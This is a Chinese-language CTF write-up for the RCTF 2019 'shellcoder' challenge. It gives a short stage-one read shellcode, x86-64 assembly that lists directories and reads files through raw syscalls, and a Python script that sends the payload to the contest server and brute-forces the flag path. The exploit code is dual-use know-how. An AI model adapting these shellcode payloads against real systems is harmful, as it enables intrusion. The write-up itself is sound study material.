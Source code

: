 ```yaml
---
layout:     post
title:      "Rctf 2019"
date:       2019-05-20
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - RCTF 2019
    - Pwn
typora-root-url: ..
---
```


# RCTF 2019 Writeup

## 前言

这次RCTF2019感觉好难，一个原因就在于看了几道题感觉都要会熟练编写使用脚本才行，比如我最终做出来的`shellcoder`，就涉及到一个自动化脚本的编写，而且最后做出来也有一部分的运气因素，真心感觉要学的东西还有很多。

## 题目分析

首先，用IDA分析一下shellcoder，主要函数如下：

![1558319328337](/img/in-post/1558319328337.png)

这个文件主要是调用syscall实现了sys_alarm，sys_read，sys_write，sys_mmap这四个函数。通过sys_mmap创建了一个7字节的空间，后面使用一大段的0xF4来进行截断，然后调用sys_read读取用户输入，通过Jumpto来运行读入的shellcode。

通过调试发现，执行用户输入的shellcode时，除了`rdi`寄存器不为0，其他寄存器都被置0，故构造shellcode的相关汇编代码为：

```assembly
dec edx
xchg rsi,rdi
syscall
```

在当前情境下，这三条代码实现了`sys_read`的功能，这样我们就可以不受长度限制的再次发送shellcode，然后我发送了一段实现execv(‘bin/sh’)的shellcode，发现并没有get shell，猜测服务器上禁用了sys_execve的调用，所以必须换一种方式去获取flag。

这里想到的办法是通过调用sys_open，getdents和sys_write来实现ls的功能，汇编代码参考链接[在此](https://github.com/t00sh/assembly/blob/master/shellcodes/linux/x86-64/ls_syscall.asm)，可以参考该链接处的汇编代码来生成shellcode，生成shellcode的命令为：

```shell
nasm -f bin shellcode.asm -o shellcode && hexdump -v -e '"\\" "x" 1/1 "%02X"' shellcode; echo
```

最后我编写的asm脚本如下：

```assembly
BITS 64
	GLOBAL _start
_start:	
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax,rax
	mov al, 2
	lea rdi, [rel $ +0x4d] 
	xor rsi, rsi
	xor rdx, rdx
	syscall	
	mov rdi,rax 		
	xor rdx,rdx
	xor rax,rax
	mov dx, 0x120	
	sub rsp, rdx 	
	mov rsi, rsp 	
	mov al, 78 	
	syscall
	xchg rax,rdi
	xor rax, rax
	xor rdi,rdi
	inc eax
	inc edi
	mov rsi, rsp
	syscall
	xor rax, rax
	mov al, 60
	syscall
	xor rax, rax
	xor rdi,rdi
	inc eax
	inc edi
	mov rsi, rsp
	syscall
```

前面的nop是因为第一次实现sys_read后，跳转到达shellcode时前7个字节被覆盖，所以使用nop来保护shellcode被损坏，同时`lea rdi, [rel $ +0x4d]`这一行是学习Defcon ctf 2019的Hotel_California这道题的exp时get到的新姿势，感觉十分好用，其作用就是获取这段shellcode后的字符串起始地址，因为rdi就是这里面sys_open的文件名参数，这样在后面编写脚本的时候就可以愉快的用字符串表示，而不用考虑各种参数压栈时避免\x00字符截断的问题，还不用考虑ASCII码转换，所以最后的python脚本为：

```python
#!usr/bin/env python

from mypwn import *

def dirname(s):
	tt = []
	for i in xrange(24):
		if (s[8*i]=='\x18' and s[8*i+7]=='\x04' and s[8*i+2]!='\x2e'):
			k = s[8*i+2:8*i+6]
			#print k
			tt.append(k)
	return tt
	

code = '''
start:
    dec edx
	xchg rsi,rdi
    syscall
'''
shellcode=asm(code,os="linux",arch="amd64")

payload = '\x90\x90\x90\x90\x90\x90\x90\x90\x48\x31\xC0\xB0\x02\x48\x8D\x3D\x46\x00\x00\x00\x48\x31\xF6\x48\x31\xD2\x0F\x05\x48\x89\xC7\x48\x31\xD2\x48\x31\xC0\x66\xBA\x20\x01\x48\x29\xD4\x48\x89\xE6\xB0\x4E\x0F\x05\x48\x97\x48\x31\xC0\x48\x31\xFF\xFF\xC0\xFF\xC7\x48\x89\xE6\x0F\x05\x48\x31\xC0\xB0\x3C\x0F\x05\x48\x31\xC0\x48\x31\xFF\xFF\xC0\xFF\xC7\x48\x89\xE6\x0F\x05'
a = ['rrfh/lmc5/nswv/o1oc/v1jx','rrfh/lmc5/nswv/1rdr/zkz1','rrfh/lmc5/nswv/1rdr/cx4e','rrfh/lmc5/nswv/1rdr/rr3h','rrfh/lmc5/nswv/1rdr/qce0','rrfh/lmc5/nswv/yojm/rcij','rrfh/lmc5/nswv/yojm/gn5d','rrfh/lmc5/nswv/yojm/wst5','rrfh/lmc5/nswv/yojm/x2u3','rrfh/lmc5/kq2t/gk8t/0mdp']
aaa = 'flag'

f = open('1.txt',"rb+")
f2 = open('2.txt','rb+')
for pp in a:
	p, elf,libc = init_pwn('./shellcoder',('106.52.252.82',20002),'',[0x3ab],True)
	ru(':')
	sn(shellcode)
	p.send(payload+'flag/'+pp+'\x00')
	s = p.recv()
	if aaa in s:
		print pp
		p.close()
		break
	yy = dirname(s)
	if yy == []:
		print "failed"
		p.close()
		continue
	for xx in yy:
		a.append(pp+'/'+xx)
		f.write(pp+',')
		f2.write(",'"+pp+'/'+xx+"'")
	p.close()
f.close()
f2.close()
```

emmm，感觉非常不优雅，由于我写的这个脚本是采取广搜的方式不断找出各个路径名，但是这样导致的问题就是过多的socket交互会加重服务器地负担，所以现实情况就是每运行一小段时间就会被服务器断开连接，所以才有了脚本中我设置地两个文件`1.txt`和`2.txt`，前者用来记录已经查找过的路径，后者用来记录新生成的路径，所以我还是在手动解决问题，而且还是爆破，然后由于我一开始就是选择的rrfh这个文件夹，跑了一段时间后，在后面又好运地选到了脚本中我写入数组a中的路径，所以后面再使用这个脚本跑地时候，几分钟就跑出了结果，找到了最终地flag路径`flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag`，真是不容易。

再使用sys_open，sys_read，sys_write，就可以编写具有cat功能的asm脚本：

```assembly
BITS 64
	GLOBAL _start
_start:	
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	nop
	xor rax,rax
	xor rdx,rdx
	xor rsi,rsi

	;because after the shellcode is filename in shellcode2.py
	lea rdi, [rel $ +0x29]
	push 1
	pop rdx
	xor esi, esi
	push 2
	pop rax
	syscall
	mov rdi, rax
	xor eax, eax
	mov rsi, rsp
	push 0x7f
	pop rdx
	syscall
	mov rdx, rax
	push 1
	pop rax
	mov rdi, rax
	syscall
	;nasm -f bin shellcode.asm -o shellcode && hexdump -v -e '"\\" "x" 1/1 "%02X"' shellcode; echo
```

同样的shellcode后面要自己加上要读取的文件相对路径名，最后得到flag：

`rctf{1h48iegin3egh8dc5ihu}`

## 后记

根据官方的公告，这道题并不需要就行爆破多次交互，只需要发送一段足够健壮的shellcode就行，也就是说这些遍历搜索的功能应该在shellcode中就实现，这应该才是优雅地解决方式，无奈我的shellcode编写水平还是有限，所以第一时间还是选择了使用python脚本爆破，实在是😓。